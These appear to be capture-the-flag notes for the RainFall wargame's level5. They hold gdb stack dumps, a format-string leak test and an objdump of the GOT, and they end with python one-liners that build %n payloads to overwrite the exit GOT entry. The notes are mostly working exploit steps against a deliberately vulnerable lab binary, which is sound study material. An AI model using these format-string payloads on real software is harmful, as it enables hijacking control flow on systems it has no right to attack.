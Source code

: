```sh
(gdb) x/80x $esp
0xbffff510:	0xbffff520	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff520:	0x41414141	0xb7e2000a	0x00000001	0xb7fef305
0xbffff530:	0xbffff588	0xb7fde2d4	0xb7fde334	0x00000007
```

```sh
level5@RainFall:~$ python -c "print('\x41\x41\x41\x41' + '%4\$x')" | ./level5 
AAAA41414141
```

```sh
level5@RainFall:~$ objdump -R level5 

level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
<08049838 R_386_JUMP_SLOT   exit >
0804983c R_386_JUMP_SLOT   __libc_start_main
```

```sh
(gdb) x/x &o
0x80484a4 <o>:	0x83e58955
```

[control EIP with string format exploit (doc)](https://samsclass.info/127/proj/p6a-fs.htm)

python -c "print('\x38\x98\x04\x08' + '\x39\x98\x04\x08' + '%4\$n%x%n')" > /tmp/test5

python -c "print('\x38\x98\x04\x08' + '\x39\x98\x04\x08' + '%256\$x' + '%4\$n')" > /tmp/test5